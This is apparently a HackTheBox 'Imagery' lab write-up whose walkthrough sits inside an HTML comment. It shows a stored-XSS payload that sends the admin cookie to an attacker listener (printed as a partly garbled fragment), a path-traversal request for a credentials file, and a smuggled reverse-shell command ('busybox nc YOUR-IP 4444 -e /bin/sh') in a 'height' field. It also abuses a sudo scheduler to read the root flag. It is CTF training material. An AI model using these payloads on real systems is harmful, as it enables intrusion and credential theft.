# Imagery

```
Difficulty: Medium
Operating System: Linux
Hints: True
```

**⚠️ Notice:
This challenge is currently active on HackTheBox.
In accordance with HackTheBox's content policy, this writeup will be made publicly available only after the challenge is retired.**

<!--

#### 🏁 Summary of Attack Chain

| Step | User / Access       | Technique Used                             | Result                                                                                                                                           |
| :--- | :------------------ | :----------------------------------------- | :----------------------------------------------------------------------------------------------------------------------------------------------- |
| 1    | (Local)             | Nmap service/version scan                  | Discovered services: SSH (22) and HTTP (Werkzeug on 8000) — identified *Image Gallery* web app.                                                  |
| 2    | (Web)               | Stored XSS in bug report                   | Injected a payload in the bug report to exfiltrate the admin session cookie when the admin viewed the report.                                    |
| 3    | (Web / Admin)       | Path traversal (LFI) on admin log endpoint | Used the stolen admin cookie to read `db.json` via the admin log endpoint and retrieve user password hashes.                                     |
| 4    | (Local)             | Password cracking (offline)                | Cracked extracted hashes with a wordlist to recover valid web user credentials (e.g., `testuser`).                                               |
| 5    | (Web)               | Command injection in image transform       | As a normal user, tampered with the image transform input to execute a command and obtain a web user shell.                                      |
| 6    | (Web Shell)         | Filesystem discovery & download            | Enumerated `/var/backup`, found an encrypted backup archive, and downloaded it for offline brute-force/decryption.                               |
| 7    | (Local)             | Archive decryption & offline hash cracking | Decrypted the backup, extracted a historical `db.json`, and cracked the `mark` hash.                                                             |
| 8    | (Local / Shell)     | Credential reuse / local user switch       | Used the cracked `mark` password to switch to user `mark` (`su mark`) and capture the user flag.                                                 |
| 9    | (Post-exploitation) | Sudo configuration review                  | `mark` has `NOPASSWD` for `/usr/local/bin/charcol` — a clear privilege-escalation vector; inspect the binary for interactive/scheduler features. |
| 10   | (Outcome)           | —                                          | User flag captured; potential privilege escalation path identified for follow-up investigation and mitigation.                                   |


### Recon – Nmap

```
nmap -sVC 10.10.XX.XX

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.7p1 Ubuntu 7ubuntu4.3 (Ubuntu Linux; protocol 2.0)
8000/tcp open  http    Werkzeug httpd 3.1.3 (Python 3.12.7)
|_http-title: Image Gallery
|_http-server-header: Werkzeug/3.1.3 Python/3.12.7
```

* **22/tcp** – SSH (OpenSSH 9.7p1)
* **8000/tcp** – HTTP (Werkzeug, Python 3.12.7)
  The web runs an *Image Gallery* application.


# Initial foothold — Stored XSS → admin cookie

The bug report page contains a **stored XSS** that can be used to exfiltrate the admin session cookie.

Start a simple HTTP server on your attacker host to capture callbacks:

```bash
python3 -m http.server 4444
```

Submit the following payload in a bug report (replace `<YOUR-IP>` with your host IP reachable by the target):

```html
:4444/?pwned='+document.cookie)>
```

When the admin opens the report, the admin session cookie will be sent to your listener.




# LFI on the admin endpoint

With the stolen admin cookie you can call the admin log endpoint which reads files based on a `log_identifier` parameter (vulnerable to path traversal).

Set the cookie variable:

```bash
COOKIE="session=ADMIN_COOKIE"
```

Example request to read `db.json` from the web user's home:

```bash
curl -s -H "Cookie: $COOKIE" \
 "http://10.10.XX.XX:8000/admin/get_system_log?log_identifier=../../../../home/web/web/db.json" | jq .
```



This reveals users and password hashes stored in `db.json`.


# Hash cracking

Save the extracted hash locally (example):

```bash
echo '2c65c8d7bf<HASH>' >> hashes.txt
```


Crack with John the Ripper:

```bash
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```



After cracking, use the recovered credentials on the web app to log in as that user.


# Webshell — Command Injection in image transform

As a normal user (e.g. `testuser`) upload an image. Intercept the image transform/crop request (Burp or similar) and modify the `height` parameter to inject a command.



Example (modify `YOUR-IP` and port):

```json
"height":"100; busybox nc YOUR-IP 4444 -e /bin/sh; echo"
```


Start a listener on your attacker host:

```bash
nc -lvnp 4444
```



Trigger the transform and you will obtain a web user shell.


# Pivot to `mark` — backup bruteforce

From the web shell, enumerate backup files:

```bash
ls -la /var/backup
```

Find an encrypted backup, for example:

```
web_20250806_120723.zip.aes
```



Download the archive to your attacker host and brute-force/decrypt it (custom script or tools such as `pyAesCrypt`/loop). Once decrypted, extract the old `db.json` which contains historical user hashes (including `mark`'s hash).



Crack the `mark` hash offline:

```bash
echo '<mark_hash>' >> hashes.txt
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```





# User access — `su mark`

From the web shell or after obtaining valid credentials, switch user:

```bash
su mark
```



Capture the user flag.


## Privilege Escalation — `charcol` (sudo)

---

## Summary

`mark` can run `/usr/local/bin/charcol` as **root** without a password. `charcol` is a backup utility with an interactive shell and a scheduling feature (`--reset-password-to-default`, `auto add --schedule ...`). By using the shell and its scheduler we can add a recurring job (cron-style) to copy the root flag to a world-readable location.

---

## Enumeration

* Checked sudo privileges:

```bash
sudo -l
# shows: user mark may run /usr/local/bin/charcol as root NO PASSWORD
```




* Investigated `charcol` and discovered:

  * It supports an interactive shell: `charcol shell`
  * It supports adding automated scheduled tasks via an `auto add --schedule` command

---

## Exploitation

1. Launch the `charcol` interactive shell as root via sudo:

```bash
sudo /usr/local/bin/charcol shell
```

2. Inside the `charcol` shell add a scheduled job that runs every minute to copy the root flag and make it world-readable:

```text
auto add --schedule "* * * * *" --command "cp /root/root.txt /tmp/root.txt && chmod 777 /tmp/root.txt" --name "get_flag"
```

3. Wait briefly (the job runs every minute). Then read the copied flag:

```bash
cat /tmp/root.txt
```


---

## Notes

* This write-up documents a single, simple path to root by abusing `charcol`'s scheduling feature when callable via `sudo`.
* **Remediation / Mitigation recommendations:**

  * Do **not** allow untrusted users to run privileged utilities without a password unless absolutely necessary.
  * Remove scheduling features or restrict them when exposing utilities to non-admin users.
  * Audit binaries allowed in `sudoers` for interactive functionality and dangerous features (shells, scheduling, arbitrary command execution).
  * Use least-privilege: if a helper utility is needed, wrap it in a safe, purpose-limited script or use `sudo` restrictions that limit allowed subcommands and arguments.

---
